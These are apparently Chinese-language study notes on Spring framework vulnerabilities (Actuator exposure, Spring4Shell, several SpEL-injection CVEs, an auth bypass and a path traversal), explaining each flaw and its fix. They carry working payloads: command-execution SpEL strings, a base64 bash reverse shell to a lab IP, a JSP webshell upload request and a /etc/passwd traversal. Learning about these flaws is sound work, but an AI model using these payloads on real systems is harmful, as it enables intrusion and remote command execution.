










## 基础知识

提供了java开发的标注和生态

- 在类上注解就能够创建依赖
- 面向切面编程，减少重复代码

sprintboot在其基础上加入了自动配置和启动的依赖

## Spring Boot Actuator 未授权访问

- 环境要求

`1.*`版本中较多，之后的版本需要在`application.yml`中配置`include:"*"`

Actuator是springboot提供的管理中间件，访问：

```
http://***:8090/actuator/env
```

能够访问环境变量，会暴露密码等



以及：

```
http://***:8090/actuator/heapdump
```

下载内存转储文件


## Sprint Data Commons RCE

CVE-2018-1273

**利用版本**

`<= 2.0.5`

Spring Data是一个简化数据库访问，Spring Data Common是其下所有子项目共享的基础框架

**payload**

```
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```



**漏洞原理**

- SpEL

Spring框架自带的动态解析引擎，类似脚本。能够动态地获取和修改java对象属性，甚至直接实例化java类

- PropertyPath

属性路径，能够定位java对象内部层级的属性，如：`user.address`

- 逻辑缺陷

传入payload后，`username[]`触发String Data Commons的属性索引逻辑

Spring Boot处理`propertyName[index]`格式请求参数名是，会调用类似

```java
Expression parser = new SpelExpressionParser().parseExpression(propertyName);
EvaluationContext context = new StandardEvaluationContext(); 
parser.getValue(context);
```

使用了高权限的`StandardEvaluationContext`能够加载任意类

传入的username被当作java代码解析运行

- 修复

使用`SimpleEvaluationContext`只读的数据绑定上下文

```
SimpleEvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
```


## Spring Data Rest RCE

CVE-2017-8046

**利用版本**

```
2.5.x < 2.5.12
2.6.x < 2.6.9
```

服务端使用了 Spring Data REST，且暴露了可进行更新的REST，支持PATCH请求

**payload**

```
[
  {
    "op": "replace",
    "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastName",
    "value": "hack"
  }
]
```



如果要反弹shell，要注意java对于反弹shell的坑

command：

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguMjcvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}
```

转换为ascii后即可反弹shell

`YmFza***`就是`bash -i >& /dev/tcp/192.168.8.27/4444 0>&1`的base64编码

java的exec会按照空格拆分字符串，base64一下就没有空格




**漏洞原理**

- Spring Data REST

扩展组件，能够生成web api接口，对数据库进行操作

- PATCH 方法

专门对服务器的资源进行局部更新，只需要提供要修改的某几个字段

- 逻辑缺陷

本质仍是SpEL注入，在处理patch请求时，path未经过滤

```java
public Expression getExpression(String path) {
    // 简单清洗斜杠后，直接将用户输入的 path 字符串解析为 SpEL 表达式
    String spelPath = convertToSpelPath(path); 
    return this.expressionParser.parseExpression(spelPath); 
}
```

解析出`Expression`对象后，调用`getValue()`时使用默认的`StandardEvaluationContext`上下文，之后调用任意类


## Spring Data Binding RCE

CVE-2022-22965

**触发条件**

JDK9及以上

Spring Framework `< 5.3.18` 或 `< 5.2.20`或 Spring Boot 2.6.5/2.5.11 及以下

部署方式必须被打包成`.war`包

**漏洞复现**

payload

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: 192.168.8.27:8081
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36 Edg/150.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=A6B96FE1B1122FF5DE542AE62C178A27
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```



之后访问

```
http://192.168.8.27:8081/tomcatwar.jsp?pwd=j&cmd=id
```



**漏洞原理**

- DataBinder

Spring MVC中将http请求中的参数绑定到java对象

- jdk9

spring旧的黑名单就禁止通过反射访问`class.classLoader`

jdk9通过`getModule()`构造class

```
class-getModele()-Module()-.getClassLoader()-classLoader
```

- 解析payload

```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i 
```

其中，`%{c2}i`是tomcat日志组件的语法，需要在http的header中找对应`c2`的值并填到这里，之后对应到tomcat日志；执行了日志写入

jsp的内容就是一个标准的jsp webshell


## Spring Cloud Gateway Actuator RCE

CVE-2022-22947

**利用条件**

Spring Cloud Gateway `3.0.0 - 3.0.6`

开启了Actuator 端点

且暴露了网关管理端点`/actuator/gateway/routes`

**漏洞复现**



之后触发SpEL表达式执行

```
POST /actuator/gateway/refresh HTTP/1.1
```

就可以RCE

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
```



最后删除路由

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
```

**漏洞原理**

- spring cloud gateway

spring的微服务网关组件，负责路由转发、安全鉴权等

- payload

spring cloud gateway在解析filter参数是支持使用SpEL表达式，并且使用`StandardEvaluationContext`	

```
POST /actuator/gateway/routes/hacktest HTTP/1.1

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```


## Spring Security 认证绕过

CVE-2022-22978

**利用条件**

```
< 5.6.4	|  < 5.5.7	|   < 5.4.11
```

**漏洞复现**



**漏洞原理**

- spring security

spring 中提供身份认证二号授权的框架

- payload

`%0a`是换行符，源码中获取

```
public boolean matches(HttpServletRequest request) {
    String url = request.getRequestURI(); 
    Matcher matcher = this.pattern.matcher(url);
    return matcher.matches(); // 执行正则匹配
}
```

获取到url后，发现有换行符，执行正则匹配不会匹配换行符，返回false

之后调用MVC的`UrlPathHelper.getLookupPathForRequest(request)`处理请求，会进行规范化，还原url后直接访问


## Spring Jetty url路径穿越

CVE-2025-41242

**利用条件**

springframe

```
6.2.0 - 6.2.9
6.0.0 - 6.1.21
 < 5.3.43
```

**漏洞复现**

```
GET /阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/阮严灵丰丰甲来/etc/passw%64 HTTP/1.1
```



**漏洞原理**

```
// Spring 源码中的缺陷代码逻辑
public static String uriDecode(String source, Charset charset) {
    int length = source.length();
    ByteArrayOutputStream baos = new ByteArrayOutputStream(length);
    
    for (int i = 0; i < length; i++) {
        int ch = source.charAt(i); // 获取一个 16-bit 的 Java char
        if (ch == '%') {
        } else {
            baos.write(ch); // 核心漏洞点：高位截断
        }
    }
    return StreamUtils.copyToString(baos, charset);
}
```

如果不是`%`就会写入字节流，只会写入参数的低8位

`阮严灵丰丰甲来`就会转换为`.%u002e`，造成路径穿越


